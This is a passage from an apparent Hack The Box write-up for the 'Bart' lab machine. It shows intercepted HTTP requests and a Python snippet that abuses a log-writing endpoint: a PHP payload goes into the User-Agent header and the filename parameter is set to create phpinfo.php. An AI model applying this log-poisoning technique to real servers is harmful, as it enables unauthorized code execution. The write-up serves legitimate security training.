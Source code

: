 It seems that `http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey` is called when the "Log" button is clicked.

I checked `http://internal-01.bart.htb/log/log.txt` to check if the log file is created, and it was.

![](attachments/bart_13.png)

The log looks similar with usual `access.log`.

I modified `user-agent` of the "Log" request using burpsuite.

```
GET /log/log.php?filename=log.txt&username=harvey HTTP/1.1
Host: internal-01.bart.htb
User-Agent: This is a test!!!!!!!!
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://internal-01.bart.htb/
Cookie: PHPSESSID=kogfovf20p6gppd3asbc67ck0i
Priority: u=0
```

![](attachments/bart_14.png)

Then I can see the modified part has been added.
Using this, I can do log poisoning.

I can write a new file instead of `log.txt` by editing the `filename` parameter, and put php code on `User-Agent` field.

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ python                          
Python 3.12.7 (main, Nov  8 2024, 17:55:36) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> headers={'User-Agent':'phpinfo: <?php phpinfo(); ?>'}
>>> r = requests.get('http://internal-01.bart.htb/log/log.php?filename=phpinfo.php&username=harvey', headers=headers)
>>> r.text
'1'
```
